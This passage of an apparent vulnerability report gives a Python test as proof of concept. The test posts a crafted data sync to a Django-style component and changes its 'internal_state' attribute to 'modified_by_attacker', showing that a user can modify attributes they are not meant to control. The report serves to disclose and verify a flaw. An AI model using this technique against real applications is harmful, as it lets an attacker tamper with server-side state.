     2. **Render the component in a test view:**
       ```python
       # tests/views/message/test_uncontrolled_attribute.py
       from tests.views.message.utils import post_and_get_response
       from tests.views.fake_components import VulnerableComponent

       VULNERABLE_COMPONENT_URL = "/message/tests.views.fake_components.VulnerableComponent"

       def test_uncontrolled_attribute_modification(client):
           # Initial render to get component ID and initial state
           response = client.get(VULNERABLE_COMPONENT_URL)
           assert response.status_code == 200
           assert "initial" in response.content.decode()

           # Craft a malicious request to modify 'internal_state'
           data = {"internal_state": "modified_by_attacker"}
           action_queue = [] # No actions needed, just data sync

           response_json = post_and_get_response(
               client,
               url=VULNERABLE_COMPONENT_URL,
               data=data,
               action_queue=action_queue,
           )

           # Re-render the component to check if 'internal_state' is modified
           response = client.get(VULNERABLE_COMPONENT_URL)
           assert response.status_code == 200
           assert "modified_by_attacker" in response.content.decode() # Verify state is modified

       ```

    3. **Run the test:** Execute the test `test_uncontrolled_attribute_modification`. If the test passes and the rendered content shows "modified_by_attacker", it confirms the vulnerability.
